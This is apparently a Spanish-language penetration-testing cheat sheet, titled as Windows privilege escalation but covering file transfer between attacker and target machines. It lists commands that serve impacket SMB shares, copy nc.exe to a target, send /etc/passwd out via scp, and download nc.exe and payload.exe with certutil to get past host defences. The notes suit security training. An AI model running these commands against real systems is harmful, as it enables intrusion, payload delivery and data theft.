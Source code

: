 # Escalación de Privilegios en Windows

## Descripción
Comprender diferentes formas de realizar transferencias de archivos y cómo funcionan las redes puede ayudarnos a lograr nuestros objetivos durante una evaluación. Debemos ser conscientes de los controles del host que pueden impedir nuestras acciones, como la inclusión en listas blancas de aplicaciones o el bloqueo AV/EDR de aplicaciones o actividades específicas. Las transferencias de archivos también se ven afectadas por dispositivos de red como Firewalls, IDS o IPS que pueden monitorear o bloquear puertos particulares u operaciones poco comunes.

### Linux - Windows (smb no autenticado)

```python
sudo impacket-smbserver share -smb2support /tmp/smbshare (Linux)
copy \\192.168.220.133\share\nc.exe (windows)
```

### Linux - Windows (smb con autentificación)

```python
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test (Linux)
net use n: \\192.168.220.133\share\FILENAME /user:test test (windows)
```

### Web Download

```python
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Alternativas distintas
```python
python3 -m http.server
python2.7 -m SimpleHTTPServer
wget 192.168.49.128:8000/filetotransfer.txt
```

### SCP Upload
```python
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
scp archivo.txt usuario@192.168.1.100:/home/usuario (windows a kali)
```

### Certuil Tranferir archivos
```python
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe (windows)
certutil -urlcache -f http://10.10.23.2/payload.exe payload.exe (windows)
```
